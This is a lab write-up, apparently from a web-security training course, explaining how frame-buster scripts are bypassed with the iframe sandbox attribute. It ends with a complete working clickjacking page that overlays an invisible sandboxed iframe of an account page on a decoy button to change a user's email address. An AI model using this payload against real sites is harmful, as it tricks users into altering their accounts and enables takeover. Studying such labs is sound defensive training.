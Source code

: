 # Clickjacking with a frame buster script


## Description

Clickjacking attacks are possible whenever websites can be framed. Therefore, preventative techniques are based upon restricting the framing capability for websites. A common client-side protection enacted through the web browser is to use frame busting or frame breaking scripts. These can be implemented via proprietary browser JavaScript add-ons or extensions such as NoScript. Scripts are often crafted so that they perform some or all of the following behaviors:

check and enforce that the current application window is the main or top window,
make all frames visible,
prevent clicking on invisible frames,
intercept and flag potential clickjacking attacks to the user.
Frame busting techniques are often browser and platform specific and because of the flexibility of HTML they can usually be circumvented by attackers. As frame busters are JavaScript then the browser's security settings may prevent their operation or indeed the browser might not even support JavaScript. An effective attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. When this is set with the allow-forms or allow-scripts values and the allow-top-navigation value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:

`<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>`

Both the allow-forms and allow-scripts values permit the specified actions within the iframe but top-level navigation is disabled. This inhibits frame busting behaviors while allowing functionality within the targeted site.

## Task

This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address. The account is solved when the email address is changed.

You have an account on the application that you can use to help design your attack. The credentials are: carlos / montoya.

## Solution

```xml
<html>
<head>
  <style>
    #target_website {
      position: relative;
      width: 260px;
      height: 395px;
      opacity: 0.0000000001;
      z-index: 2;
      top: -368px;
      left: -40px;
    }

    #decoy_website {
      position:absolute;
      width:300px;
      height:400px;
      z-index:1;
    }
  </style>
</head>
<body>
  <div id="decoy_website">
   <button>Just click this button!</button>
  </div>
  <iframe id="target_website" src="https://acbf1fe01f117f2e8001131e00530002.web-security-academy.net/email?email=my@evil.mail" sandbox="allow-forms">
  </iframe>
</body>

</html>
```